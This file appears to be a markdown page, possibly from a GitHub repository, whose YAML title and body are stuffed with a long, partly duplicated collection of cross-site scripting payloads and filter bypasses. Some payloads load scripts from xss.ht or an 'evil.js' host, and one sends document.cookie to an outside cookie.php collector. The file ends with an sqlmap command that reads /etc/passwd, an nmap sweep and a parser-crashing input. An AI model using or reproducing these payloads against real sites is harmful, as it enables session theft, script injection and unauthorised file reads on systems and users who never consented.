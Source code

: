 ```yaml
---
group: Contributing
weight: 222
title: '"><script src=https://wefwfwfwefwef.xss.ht></script>'
---
```

"><script src=https://wefwfwfwefwef.xss.ht></script>["><script src=https://wefwfwfwefwef.xss.ht></script>](\u003cimg\u0020src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\u003e)

"><img src=x onerror=alert(document.domain)> "><img src=x onerror=alert(document.domain)>

"><img src=x onerror=alert(document.domain)>
" onmouseover=prompt(document.domain) i=
python3 -c 'print("!\[l"* 100000 + "\n")' | ./cmark-gfm -e autolink
{%00{constructor.constructor('alert(1)')()}%00}
x"><svg%250donload%3D"window%5B%27alert%27%5D(location[%27hostname%27])"
'"></title></textarea></script></style></noscript><script src=https://abc.xss.ht></script>
'"--></style></scRipt><scRipt>alert(111)</scRipt>
<notreal onpointerrawupdate=alert`0`>
"hello<form/><!><details/open/ontoggle=alert(88)>"@gmail.com
&quot;&gt;svg/onload=alert(0)&gt;
img1"onpointerrawupdate='alert(0)'">

"><img src=x onerror=alert(document.domain)>
" onmouseover=prompt(document.domain) i=
python3 -c 'print("!\[l"* 100000 + "\n")' | ./cmark-gfm -e autolink
{%00{constructor.constructor('alert(1)')()}%00}
x"><svg%250donload%3D"window%5B%27alert%27%5D(location[%27hostname%27])"
'"></title></textarea></script></style></noscript><script src=https://abc.xss.ht></script>
'"--></style></scRipt><scRipt>alert(111)</scRipt>
<notreal onpointerrawupdate=alert`0`>
"hello<form/><!><details/open/ontoggle=alert(88)>"@gmail.com
&quot;&gt;svg/onload=alert(0)&gt;
img1"onpointerrawupdate='alert(0)'">
"><img src="x" onerror="alert(document.domain)">.png
<img src='https://august-2022-bc-xss-challenge.herokuapp.com/images/cat.png'></img>
<marquee+loop=1+width=0+onfinish='new+Function`al\ert\`1\`\`'> 
&quot;&gt;&lt;img src=x onerror=confirm(document.domain);&gt;
<img src=x onerror=confirm()>
\u003cimg\u0020src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\u003e
o'"></script><embed src=javascript:alert(1)>{{constructor.constructor('alert(155555)')()}}
edcjks'-alert(1)-'zzknc
"><iframe src="//www.14.rs">
"<br><center><h1>HTML injection </h1></a></center><!--

<iframe src="javascript:alert(1)">
"><svg onload=document.forms\[1].action='http://pxqs92269gbygl144z1yp0i9u00uoj.burpcollaborator.net/?Hacked'><!--+
{{define "T1"}}<script>alert(1)</script>{{end}} {{template "T1"}
'-alert(document.domain)-'
aaa<h1>xss<a href='javascript:alert()'><script>alert(XSS)C.html
'"()&%25<acx><ScRiPt >alert(9261)<%2fScRiPt>
0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg" HTTP-EQUIV="refresh" a="a
OnMoUsEoVeR=prompt(/hacked/)//
"autofocus onfocus=alert(1)//
xssbymosec%222635167,3042225&l=dkkk%22%20autofocus%20onfocus%2526%2523%2578%2533%2564%253b%20%20alert%2526%2523%2578%2532%2538%253b%2526%2523%2578%2532%2539%253b%2526%2523%2578%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2533%2565%253b%20%2526%2523%2578%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2530%2533%2563%253b
"></div></div><brute onbeforescriptexecute='confirm(document.domain)'>
?&q&zzz'onmou<seover=1&ale<rt('xsp'<)<;1; //
<Svg+Onload=[].pop.constructor`alert\x281\x29```>
data:text/html%3Bbase64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg==
JavaScript://%0aalert(9)
<script>
document.forms[0].submit();
</script>
<img src=1 onerror="s=document.createElement('script');s.src='//xss-doc.appspot.com/static/evil.js';document.body.appendChild(s);"
'"></script><img src=x onerror=alert()>{{7*7}}
<script><!><svg onload=a=alert,b=document.cookie,[b].find(a)>"
<iframe src="javascript:alert(1)">
l0cpd%22};a=alert,b=document.domain,a(b)//
<svg onload=alert(1)+
<svg onload=alert(1)//
<svg onload=alert(1)<!--
/"><img src=x onerror=prompt``>;<video>
javascript:alert('{{randstr}}')
<img src=1 onerror=alert(document.domain)>
<a href=”javascript&colon;alert&lpar;document&period;domain&rpar;”>Click 
{{this.constructor.constructor('alert("foo")')()}}
<video src=">" onerror=setTimeout`confirm\x281\x29`>
onclick="alert('hacking your megabits!1')"
onmouseover='(javascript payload)'
evilhostAerU6DRW.com
" onclick="alert(1)
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert('Got-Hacked-By-TheXerr0r') )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('Got-Hacked-By-TheXerr0r')//>\x3e#
'onerror='alert("XSS")''
\";alert('XSS');//
javascript:alert(document.cookie)
<a href=”javascript&colon;alert&lpar;document&period;domain&rpar;”>Click 
<s%2563r%2569pt>alert(4)</s%2563r%2569pt>
javascript:alert(document.cookie)
 "><s"%2b"cript>alert(document.cookie</s"%2b"cript>
<iframe src=”data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E”></iframe>
javascript:onclick=alert(1);
"><img src=x onerror=window.open('https://www.google.com/');>
<form><button formaction=javascript&colon;alert(1)>CLICKME
<math><a xlink:href="//jsfiddle.net/t846h/">click
===========================
"><img src=https://www.no-gods-no-masters.com/img/tshirt-liberation-animale-liberation-humaine-D012747225P0210.jpg>”@x.y "
['-alert(document.cookie)-']
<svg/onload="[]['\146\151\154\164\145\162']['\143\157\156\163\164\162\165\143\164\157\162']('\141\154\145\162\164\50\61\51')()">
<svg onload=alert%26%230000000040"1")>
 <script>alert(String.fromCharCode(88, 115, 115, 32, 66, 121, 32, 79, 108, 100, 77, 111, 104, 97, 109, 109))</script>
Normal Payload XSS
<img src=x onerror=alert(1)>
Status \[ 406 Not Acceptable ]
<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="alert(1)"></xss>
Bypass Payload
<img src=x onerror=(a=alert,b=1,a(b))>
Status \[ 200 OK ]
<iframe <><a href=javascript&colon;alert(document.cookie)>Click Here</a>=&gt;&lt;/iframe&gt;
X-Forwarded-Host: evilhostrl8kmvoG.com
<svg/onload=alert()>
"accesskey='x' onclick='confirm\`1\`' //
========================
<style>@keyframesa{}b{animation:a;}</style><b/onanimationstart=prompt\`${document.domain}&#x60;>
<javas style=font-size:500px onmouseover=location=tagName%2binnerHTML%2bURL>cript:</javas>#%0Aalert(1)
'444-555-4455 <img src=x onerror=alert(1)>'
 and put %23.html CRLF and XSS stored on ton.twitter.com
"><img src=x onerror=prompt\``>
&url="><
<script src=”<%= ResolveUrl(“~/Script.js”) %>”></script>
/(A(%22onerror='alert%601%60'testabcd))/
<img src=1111111><img src=1111111><a href="javascript:alert&#40/1/&#41">axxx</a><svg></svg><img src=1>

<h1>holaaaaaaa||<a href="http://<a href="http://<a href="http://<a href="javascript:alert(document.cookie)" onmouseover="javascript:alert(document.cookie)">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">gle.com</a> hhh

<h1>holaaaaaaa||<a href="http://<a href="http://<a href="http://<a href="javascript:window.location='https://growncheckerworl.com/cookie.php?cookie=document.cookie'" >aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">gle.com</a> hhhk

Ij48aW1nIHNyYz14IG9uZXJyb3I9YWxlcnQoZG9jdW1lbnQuZG9tYWluKT4=
<x onauxclick=a=alert,a(domain)>click
"%3c%3c%73%63%72%5c%61%61%61%2f%73%72%63%3d%3e%3c%2f%73%63%72%69%70%74%3e%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%70%6c%61%79%73%74%61%74%69%6f%6e%20%72%65%66%6c%65%63%74%65%64%20%78%73%73%20%42%59%20%42%34%47%47%33%52%22%29%3c%2f%73%63%72%69%70%74%3e"

SSI directives i.e < ! # = / . “ ? and \[a-zA-Z0–9] are 

<!--#exec emd="is"-->

JAVASCRIPT:alert%09(document.domain)

sqlmap -u "link" --file-read="/etc/passwd"

walla hich 4
baw zmapa atwani
nmap -p 1-65535 -T4 -A -v -iL C:\Users\omer\Desktop\iq.txt -oX C:\Users\omer\Desktop\iq.xml

http://brutelogic.com.br/poc.svg